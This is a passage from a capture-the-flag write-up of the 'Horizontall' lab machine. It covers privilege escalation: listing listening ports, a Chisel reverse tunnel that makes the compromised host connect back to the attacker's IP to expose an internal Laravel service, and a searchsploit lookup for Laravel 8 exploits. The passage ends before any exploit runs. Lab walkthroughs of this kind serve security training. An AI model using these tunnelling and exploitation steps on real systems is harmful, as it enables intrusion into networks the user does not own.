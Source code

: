 We got the shell access and we read the user flag.

# Privilege Escalation

```
(remote) strapi@horizontall:/opt/strapi/myapi$ netstat -lp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 localhost:8000          0.0.0.0:*               LISTEN      -
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:http            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN      -
tcp        0      0 localhost:1337          0.0.0.0:*               LISTEN      1856/node /usr/bin/
tcp6       0      0 [::]:http               [::]:*                  LISTEN      -
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN      -
```

Let’s forward port 8000 to our machine using Chisel.

```
⛩\> ./chisel server -p 9002 --reverse
2021/08/31 10:13:01 server: Reverse tunnelling enabled
2021/08/31 10:13:01 server: Fingerprint D6eGohM1RLnXNrOrVqwIFAy3/2uAJ9TMBHHxS0h0MLk=
2021/08/31 10:13:01 server: Listening on http://0.0.0.0:9002
```

On Kali Linux open up a port for reverse port forward using chisel. Now upload chisel binary to target machine and connect the server.

```
(remote) strapi@horizontall:/opt/strapi/myapi$ chmod +x chisel

(remote) strapi@horizontall:/opt/strapi/myapi$ ./chisel client 10.10.14.209:9002 R:8000:127.0.0.1:8000
2021/08/31 10:29:44 client: Connecting to ws://10.10.14.209:9002
2021/08/31 10:29:46 client: Connected (Latency 223.158535ms)
```

Access the forwarded port.

![Screen Shot 2021-08-31 at 03.17.05.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/B5CDBA83-3830-450E-A5CB-463860A569A2/E289A069-0A12-4822-9F96-FFD4DF597234_2/Screen%20Shot%202021-08-31%20at%2003.17.05.png)

Laravel is running and version is v8. Let’s find any POCs.

```
⛩\> searchsploit 'laravel 8'
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                               |  Path
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Laravel - 'Hash::make()' Password Truncation Security                                                                        | multiple/remote/39318.txt
Laravel 8.4.2 debug mode - Remote code execution                                                                             | php/webapps/49424.py
Laravel Log Viewer < 0.13.0 - Local File Download                                                                            | php/webapps/44343.py
Laravel Nova 3.7.0 - 'range' DoS                                                                                             | php/webapps/49198.txt
UniSharp Laravel File Manager 2.0.0 - Arbitrary File Read                                                                    | php/webapps/48166.txt
UniSharp Laravel File Manager 2.0.0-alpha7 - Arbitrary File Upload                                                           | php/webapps/46389.py
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```